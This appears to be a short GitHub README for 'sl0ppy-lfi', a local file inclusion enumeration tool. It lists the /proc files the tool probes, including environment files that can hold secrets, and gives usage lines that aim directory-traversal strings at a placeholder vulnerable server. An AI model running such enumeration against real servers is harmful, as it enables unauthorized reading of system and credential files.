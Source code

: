 # sl0ppy-lfi
A small lfi enum tool, i upgraded the original source a bits here and there.  

# Added searches
* /proc/loginuid
* /proc/maps
* /proc/patch-state
* /proc/numa_maps
* /proc/stack
* /proc/personality
* /proc/pagemap
* /proc/cgroup
* /proc/sched
* /proc/mounts
* /proc/status
* /proc/environ
* /proc/shedstat
* /proc/meminfo
* /proc/self/
* /proc/self/stat
* /proc/self/environ
* /proc/self/maps/
* /proc/self/fd/
* and more
# Usage 

# Enum all
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=` 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=../../../../../../../../../../` 


# enum specific stuff like only libc
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page= | grep "libc"`
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=../../../../../../../../../../ | grep "libc"` 

# Output Enum 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page= > output && cat output`  

# sl0ppy-ProcessInfo
`./sl0ppy-ProcessInfo http://server.vulnerable.com/download.php?file=` 
